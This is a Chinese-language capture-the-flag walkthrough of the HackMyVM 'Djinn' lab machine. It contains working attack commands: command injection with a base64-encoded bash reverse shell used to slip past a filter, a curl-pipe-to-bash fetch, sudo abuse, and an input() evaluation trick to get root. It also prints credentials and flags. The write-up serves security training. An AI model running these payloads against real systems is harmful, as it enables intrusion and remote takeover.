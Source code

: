 # Djinn

2025.02.15 https://hackmyvm.eu/machines/machine.php?vm=Djinn

[video](https://www.bilibili.com/video/BV1uoAweWEXX/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
1337/tcp open  waste
7331/tcp open  swx
```

ftp 可以匿名登陆，将其内容全部下载后查看。

```
nitu:81299

oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the
final level and get the prize.

@nitish81299 I am going on holidays for few days, please take care of all the work.
And don't mess up anything.
```

说 1337 端口上有一个游戏，使用 nc 进行连接，发现是个计算游戏，但是好像没看出什么漏洞，估计是个兔子洞。

在看 7331 这个端口，是个 web 页面，源码中也没什么信息，使用 gobuster 进行扫描，发现了 http://192.168.5.40:7331/wish 这里实现命令执行：

```
curl --data-urlencode "cmd=whoami" http://192.168.5.40:7331/wish
```

直接在 kali 上建立监听，然后执行反弹：

```
nc -lvnp 8888
curl --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'" http://192.168.5.40:7331/wish
```

这里不能执行，显示 Wrong choice of words 应该是后台有过滤，需要绕过，尝试用 base64 进行绕过：

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish

root:x:0:0:root:/root:/bin/bash
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
```

对下面的代码进行 base64：

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'

L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==
```

然后执行：

```
curl --data-urlencode "cmd=echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==|base64 -d|bash" http://192.168.5.40:7331/wish
```

这时在 kali 上得到了反弹的 shell：

```
www-data@djinn:/opt/80$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

然后发现了一个用户登陆凭据：

```
www-data@djinn:/home/nitish$ cat .dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

su 切换到 nitish 用户，得到了 user flag：

```
nitish@djinn:~$ cat user.txt
HMV{WW91IGZvdW5kIHRoZSBmaXJzdCBzdGVw}
```

sudo -l 发现 (sam) NOPASSWD: /usr/bin/genie 可以直接提权到 sam 用户：

```
sudo -u sam /usr/bin/genie -c 'curl http://192.168.5.3/5-3/8888.sh|bash'
```

但是出现提示：Pass your wish to GOD, he might be able to help you. 应该是有过滤。尝试找到更多的命令帮助 man genie 发现了一个参数 -cmd ：

```
-cmd
You know sometime all you new is a damn CMD, windows I love you.
```

sudo -u sam genie -cmd whoami 执行后，得到了 sam 权限，sudo -l 发现另外的命令： (root) NOPASSWD: /root/lago , 但是没有执行权限。

发现 sam 用户属于 lxd 用户组，想着借助 lxd 提权，但是提示有问题：

```
Error: Unable to read the configuration file: open /home/nitish/.config/lxc/config.yml: permission denied
```

发现在 sam 目录中有一个 .pyc 文件，将其反编译，得到源码：

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'

if __name__ == '__main__':
    main(options())
```

sudo -l 发现 (root) NOPASSWD: /root/lago ，先尝试执行：

```
sudo -u root /root/lago
```

发现程序显示的内容和上面的 pyc 代码反编译出来的一致，找到执行逻辑，发现 guessit() 可以执行命令，输入 2 和 num 直接得到了 root 权限：

```
sam@djinn:/home/sam$ sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100:
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
lago  root.txt
# cat root.txt
HMV{eWVzIHlvdSBhcmUgY29vbA==}
```

最后提权到 root，也可以利用 pwnkit 这个版本的漏洞 https://github.com/arthepsy/CVE-2021-4034
